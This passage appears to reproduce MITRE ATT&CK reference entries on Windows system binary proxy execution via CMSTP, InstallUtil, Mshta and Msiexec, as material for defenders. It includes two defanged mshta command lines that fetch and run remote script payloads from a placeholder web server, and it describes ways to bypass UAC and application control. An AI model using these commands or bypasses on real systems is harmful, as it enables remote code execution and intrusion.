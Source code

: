 CMSTP.exe can also be abused to [Bypass User Account Control](https://attack.mitre.org/techniques/T1548/002) and execute arbitrary commands from a malicious INF through an auto-elevated COM interface. (Citation: MSitPros CMSTP Aug 2017) (Citation: GitHub Ultimate AppLocker Bypass List) (Citation: Endurant CMSTP July 2018)

#### T1218.004 - System Binary Proxy Execution: InstallUtil

Description:

Adversaries may use InstallUtil to proxy execution of code through a trusted Windows utility. InstallUtil is a command-line utility that allows for installation and uninstallation of resources by executing specific installer components specified in .NET binaries. (Citation: MSDN InstallUtil) The InstallUtil binary may also be digitally signed by Microsoft and located in the .NET directories on a Windows system: <code>C:\Windows\Microsoft.NET\Framework\v<version>\InstallUtil.exe</code> and <code>C:\Windows\Microsoft.NET\Framework64\v<version>\InstallUtil.exe</code>.

InstallUtil may also be used to bypass application control through use of attributes within the binary that execute the class decorated with the attribute <code>[System.ComponentModel.RunInstaller(true)]</code>. (Citation: LOLBAS Installutil)

#### T1218.005 - System Binary Proxy Execution: Mshta

Description:

Adversaries may abuse mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code (Citation: Cylance Dust Storm) (Citation: Red Canary HTA Abuse Part Deux) (Citation: FireEye Attacks Leveraging HTA) (Citation: Airbus Security Kovter Analysis) (Citation: FireEye FIN7 April 2017) 

Mshta.exe is a utility that executes Microsoft HTML Applications (HTA) files. (Citation: Wikipedia HTML Application) HTAs are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser. (Citation: MSDN HTML Applications)

Files may be executed by mshta.exe through an inline script: <code>mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))</code>

They may also be executed directly from URLs: <code>mshta http[:]//webserver/payload[.]hta</code>

Mshta.exe can be used to bypass application control solutions that do not account for its potential use. Since mshta.exe executes outside of the Internet Explorer's security context, it also bypasses browser security settings. (Citation: LOLBAS Mshta)

#### T1218.007 - System Binary Proxy Execution: Msiexec

Description:

Adversaries may abuse msiexec.exe to proxy execution of malicious payloads. Msiexec.exe is the command-line utility for the Windows Installer and is thus commonly associated with executing installation packages (.msi).(Citation: Microsoft msiexec) The Msiexec.exe binary may also be digitally signed by Microsoft.

Adversaries may abuse msiexec.exe to launch local or network accessible MSI files. Msiexec.exe can also execute DLLs.(Citation: LOLBAS Msiexec)(Citation: TrendMicro Msiexec Feb 2018) Since it may be signed and native on Windows systems, msiexec.exe can be used to bypass application control solutions that do not account for its potential abuse. Msiexec.exe execution may also be elevated to SYSTEM privileges if the <code>AlwaysInstallElevated</code> policy is enabled.(Citation: Microsoft AlwaysInstallElevated 2018)
